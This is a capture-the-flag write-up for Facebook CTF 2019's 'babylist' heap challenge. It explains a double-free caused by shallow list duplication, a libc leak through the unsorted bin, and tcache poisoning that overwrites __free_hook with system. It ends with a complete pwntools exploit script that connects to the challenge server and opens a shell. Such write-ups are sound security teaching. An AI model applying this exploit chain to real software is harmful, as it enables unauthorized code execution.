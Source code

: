 # Facebook CTF 2019 - babylist

This challenge is c++ binary.

```
$$$$$$$$$$$$$$$$$$$$$$$$$$
Welcome to babylist!
$$$$$$$$$$$$$$$$$$$$$$$$$$

1. Create a list
2. Add element to list
3. View element in list
4. Duplicate a list
5. Remove a list
6. Exit
>
```
It looks like heap challenge. List structure is as follows.

```
void __cdecl create_list()
{
  __int64 v0; // rax
  list *new_list; // rbx
  __int64 v2; // rax
  signed int i; // [rsp+Ch] [rbp-14h]

  for ( i = 0; i <= 9 && lists[i]; ++i )
    ;
  if ( i == 10 )
  {
    v0 = std::operator<<<std::char_traits<char>>((__int64)&std::cout, (__int64)"Sorry, no empty spot available :(");
  }
  else
  {
    new_list = (list *)operator new(0x88uLL);
    ptr_initialize((__int64)new_list);
    lists[i] = new_list;
    v2 = std::operator<<<std::char_traits<char>>((__int64)&std::cout, (__int64)"Enter name for list:");
    std::ostream::operator<<(v2, &std::endl<char,std::char_traits<char>>);
    std::istream::getline((std::istream *)&std::cin, lists[i]->name, 0x70LL);
    v0 = std::operator<<<std::char_traits<char>>((__int64)&std::cout, (__int64)"List has been created!");
  }
  std::ostream::operator<<(v0, &std::endl<char,std::char_traits<char>>);
}

typedef list {
  char name[0x70];
  int *start; /* address of the first element in array */
  int *last;  /* address of the last element in array */
  int *limit; /* end of allocated array */
} List;
```

start, last, limit pointers points address of memory that is dynamically allocated.
When we add a element to list, the element added to array and last pointer is increased by 4(size of element).

When we add first element to list, the start pointer is initialized via `operator new(1)`. and internally(in binary)
it can store only one element. Each time the array is full, existing array is freed(deleted) and new array is allocated.
The size of array gets doubled each time.

Third menu 'View' has nothing special. Duplicating list literally copies a list. But an interesting point is that it
doesn't allocate new array and copies, instead copies start, last, limit pointer. So it can happen that
1. Make an list named A. Add elements until array in the list gets full.
2. Duplicate that list. Let's call duplicated list B.
3. Add a element in A. Then A gets newly allocated array(start, last, limit).
4. Array that B has is freed memory.

Also if we add a element in B, array that B is again freed(double free). We can use this vulnerability later in exploit.
To leak the address of libc,
1. Make a list. and add elements until the size of array becomes large enough(larger than 0x80, which is fastbin chunk).
2. Add elements so that array gets full.
3. Duplicate the list 8 times.
4. Add a elements in each list except the the last list.
 - The same array is freed 8 times.
 - Binary uses glibc 2.27 which implements tcache. With first 7 frees, tcache gets saturated.
 - The last eighth free puts the chunk into unsorted bin.
5. View the value of first, second elements in 9th list.
 - Array of 9th list has is pointer of freed chunk in unsorted bin.
 - first, second bytes are the address of somewhere in main_arena
 - We can get base address of libc.

After libc leak, the exploit scenario is as follows.
1. Make a list and add elements until the size of array becomes 0x91(including chunk header)
 - The reason we do this step is 0x91 is the same as the size of 'list' structure.
2. Duplicate this list 2 times.
3. Add a element in two lists.
 - Array is double freed. (tcache -> p -> p)
4. Make a list with its name value of address of __free_hook. (tcache -> p)
5. Make a list with its name value of "/bin/sh\x00". (tcache -> __free_hook)
 - Array of third list is '/bin/sh\x00'
 - Let's call this array A.
6. Make a list with its name value of address of system
 - __free_hook is allocated.
7. Add a element in 3rd list.
 - A is freed. That is, free(A)
 - __free_hook is overwritten with system and A has "/bin/sh"
 - free(A) is system("/bin/sh");
8. Get shelL!

```
from pwn import *

bin = ELF('./babylist')
libc = ELF('./libc-2.27.so', checksec=False)

LOCAL = False

one_gadget_offset = [0x4f2c5, 0x4f322, 0x10a38c]


def create_list(name):
    conn.sendlineafter('> ', str(1))
    conn.sendlineafter('name for list:\n', name)
    conn.recvuntil('List has been created!\n')


def add_element(idx, num):
    conn.sendlineafter('> ', str(2))
    conn.sendlineafter('Enter index of list:\n', str(idx))
    conn.sendlineafter('Enter number to add:\n', str(num))
    conn.recvuntil('Number successfully added to list!\n')


def view_element(list_idx, idx):
    conn.sendlineafter('> ', str(3))
    conn.sendlineafter('Enter index of list:\n', str(list_idx))
    conn.sendlineafter('Enter index into list:\n', str(idx))


def duplicate_list(idx, name):
    conn.sendlineafter('> ', str(4))
    conn.sendlineafter('Enter index of list:\n', str(idx))
    conn.sendlineafter('Enter name for new list:\n', name)
    conn.recvuntil('List has been duplicated!\n')


def remove_list(idx):
    conn.sendlineafter('> ', str(5))
    conn.sendlineafter('Enter index of list:\n', str(idx))
    conn.recvuntil('List has been deleted!\n')


if LOCAL:
    conn = process('./babylist', env={'LD_PRELOAD': './libc-2.27.so'})
    gdb.attach(conn)
else:
    conn = remote('challenges.fbctf.com', 1343)

# Stage 1: Libc Leak
create_list('AAAAAAAA')

for i in range(64):
    log.info(str(i))
    add_element(0, 1)

for i in range(8):
    duplicate_list(0, 'BBBBBBBB')

for i in range(8):
    add_element(i, 1)

view_element(8, 0)

conn.recvuntil('BBBBBBBB[0] = ')
lower = conn.recvuntil('\n')[:-1]
if lower.startswith('-'):
    lower = ~int(lower[1:]) + 1
else:
    lower = int(lower)

view_element(8, 1)
conn.recvuntil('BBBBBBBB[1] = ')
higher = int(conn.recvuntil('\n')[:-1]) + 1

libc_addr = (higher << 32) + lower - 0x3ebca0
log.info('Libc_addr: ' + hex(libc_addr))
log.info('One_gadget_addr: ' + hex(libc_addr + one_gadget_offset[1]))

# Stage 2
for i in range(9):
    remove_list(i)

create_list('CCCCCCCC')  # 0

for i in range(32):
    add_element(0, 1)

duplicate_list(0, 'DDDDDDDD')  # 1
duplicate_list(0, 'DDDDDDDD')  # 2

add_element(0, 1)
add_element(1, 1)

create_list(p64(libc_addr + libc.symbols['__free_hook']))
create_list('/bin/sh\x00')
create_list(p64(libc_addr + libc.symbols['system']))

conn.sendlineafter('> ', str(2))
conn.sendlineafter('Enter index of list:\n', str(2))
conn.sendlineafter('Enter number to add:\n', str(1))

conn.interactive()
```